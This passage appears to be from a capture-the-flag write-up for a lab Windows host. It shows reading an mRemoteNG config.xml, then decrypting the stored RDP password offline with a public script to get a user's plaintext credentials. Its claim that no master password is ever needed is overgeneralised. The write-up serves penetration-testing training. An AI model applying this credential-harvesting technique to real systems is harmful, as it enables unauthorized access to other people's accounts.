```powershell
```

A second non-admin profile `gale.dekarios` exists. In `C:\Users\ellen.freeman\Documents` there’s a `config.xml` that clearly belongs to **mRemoteNG** - the all-in-one remote connections manager.

```
PS C:\Users\ellen.freeman\Documents> type config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
PS C:\Users\ellen.freeman\Documents>
```

mRemoteNG stores connection entries in XML with **encrypted** passwords (AES-GCM). Decryption does **not** require the master password if you have the file because the key derivation parameters and protected blob are embedded.

Grab the file and decrypt locally with a public tool:
```bash
# copy config.xml off the box
❯ python3 /opt/mremoteng-decrypt/mremoteng_decrypt.py -rf config.xml
Username: Gale.Dekarios
Hostname: Lock
Password: ty8wnW9qCKDosXo6 
```
**Result:** credentials for `Gale.Dekarios` over **RDP** to host `Lock`.

